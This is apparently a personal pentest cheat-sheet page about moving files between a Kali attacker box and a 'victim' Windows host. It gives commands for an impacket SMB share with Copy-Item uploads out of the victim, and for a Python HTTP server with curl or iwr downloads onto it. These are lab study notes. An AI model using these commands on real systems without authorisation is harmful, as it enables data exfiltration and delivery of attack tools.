

repository: jh1h1h/portfolio · page: docs/general/Download & Upload.html · generator: docusaurus

## SMB Share
<details>
on kali: make a folder called share and create a `test.txt` empty document then `impacket-smbserver -smb2support share ./share -username test -password test` then on victim `net use \\<kali ip>\share /user:test test` then `dir \\192.168.45.217\share` to confirm u can see the `test.txt` in /share (maybe create a test.txt in it for checking purposes) then `Copy-Item "<path to file in windows>" "\\<kali ip>\share"` to upload it to your kali. Copy-Item the other way to download files to ur victim.
</details>

## Python server
(download only) (I know u can start a python upload server but i haven't add that yet)
<details>
On kali, `python3 -m http.server <port>` in the folder that has the file u wanna serve

Then on victim either `curl http://<kali ip>:<port>/<filename> -o <filename>` (cmd) or `iwr -uri http://<kali ip>:<port>/<filename> -Outfile <filename>`
</details>
